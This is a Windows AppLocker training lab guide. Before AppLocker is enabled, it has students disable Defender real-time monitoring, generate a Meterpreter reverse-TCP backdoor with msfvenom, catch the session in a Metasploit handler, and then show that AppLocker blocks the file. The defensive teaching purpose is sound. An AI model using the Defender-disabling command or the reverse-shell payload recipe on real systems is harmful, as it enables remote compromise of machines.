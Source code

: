 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`


`cp ./TrustMe.exe /mnt/c/tools`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`


Then, run it.

`TrustMe.exe`


Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments/Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments/Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments/Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






